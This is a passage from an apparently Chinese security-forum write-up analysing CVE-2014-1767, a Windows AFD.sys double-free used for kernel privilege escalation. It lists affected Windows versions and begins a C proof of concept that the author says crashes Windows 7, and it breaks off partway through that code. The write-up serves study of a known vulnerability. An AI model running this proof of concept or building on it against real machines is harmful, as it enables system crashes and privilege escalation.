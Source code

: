#  万字长文详解CVE-2014-1767提权漏洞分析与利用（x86x64）   
yumoqaq  看雪学苑   2022-06-14 18:11  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/1UG7KPNHN8EXiaaJdNyYhHcc0b2FGBewUc2JHMQZ8pg1Er6vZxQy4V2wg5wDQ0TFvAtGBjKfGpQ4SKJgicqVsYLw/640?wx_fmt=jpeg "")  
  
本文为看雪论坛精华文章看雪论坛作者ID：yumoqaq  
  
  
这是我第一个研究的漏洞，虽然已经有相当多的资料与文章对这个漏洞进行了分析，但是大部分都是（ctrlCV你懂的），参考了前人的资料，给出了还不如前人的分析文章，让我这个纯纯的新手感觉到困难重重。所以我想把我的分析与思考的过程分享给大家，希望可以帮助到像我一样的菜鸟们，  
同时也是向那些无私奉献的大佬们致敬！  
  
# 概述  
  
  
在2014年的Pwn2Own黑客大赛上，Siberas安全团队利用CVE-2014-1767 Windows AFD.sys 双重释放漏洞进行内核提权，以此绕过windows8.1 平台上的IE11沙箱，随后该漏洞因此获得2014年黑客奥斯卡的“最佳提权漏洞奖”。  
  
  
# 影响版本  
```
Windows 8.1
Windows 8
Windows 7
Windows Vista
Windows XP
Windows Server 2012 R2
Windows Server 2012
Windows Server 2008 R2
Windows Server 2008
Windows Server 2003
Windows RT
Windows RT 8.1
```  
#   
#   
#   
# 实验环境  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/1UG7KPNHN8EXiaaJdNyYhHcc0b2FGBewU2C65tT2SBfWnIZw2zBMK4JjI8IibXb1apEMp5bAsXzYkP7ecNu5TuyQ/640?wx_fmt=png "")  
  
  
# POC  
  
  
将以下代码编译，我使用VS2019，编译后在win7x86 SP1的虚拟机上运行，蓝屏崩溃。  
```
#include <stdio.h>
#include <WinSock2.h>
#include <WS2tcpip.h>
#pragma comment(lib,"Ws2_32.lib")
 
int main()
{
    DWORD targetSize = 0x310;
    DWORD virtualAddress = 0x13371337;
    DWORD mdlSize = (0x4000 * (targetSize - 0x30) / 8) - 0xFFF - (virtualAddress & 0xFFF);
    static DWORD inbuf1[100];
    memset(inbuf1, 0, sizeof(inbuf1));
    inbuf1[6] = virtualAddress;
    inbuf1[7] = mdlSize;
```